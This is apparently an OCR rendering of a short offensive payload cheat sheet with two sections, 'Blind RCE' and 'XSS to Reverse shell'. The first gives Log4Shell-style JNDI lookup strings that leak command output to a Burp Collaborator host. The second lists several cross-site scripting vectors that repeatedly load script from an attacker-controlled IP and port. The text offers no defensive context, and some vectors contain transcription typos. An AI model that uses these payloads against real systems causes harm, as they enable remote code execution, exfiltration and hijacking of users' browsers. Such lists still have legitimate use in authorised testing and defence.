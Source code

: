 ## Blind RCE:
``
${jndi:ldap://${command}XXXX${::-.}burpcollab.net}zzzz

${jndi:ldap://${command}XXXX${::-.}.burpcollaborator.net}zzzz
```
## XSS to Reverse shell:
```
<svg/onlaod=setInterval(function(){{with(document)body.appendChild(createElement("script")).src="//IP:4444"}},1010)>

<script>setInterval(function(){{with(document)body.appendChild(createElement("script")).src="//IP:4444"}},1010)</script>

<img src=link onerror=setInterval(function(){{with(document)body.appendChild(createElement("script")).src="//IP:4444"}},1010)>

<body onload=setInterval(function(){{with(document)body.appendChild(createElement("script")).src="//IP:4444"}}></body>

<img src=x onerror=document.write(navigator.appVersion)>
```
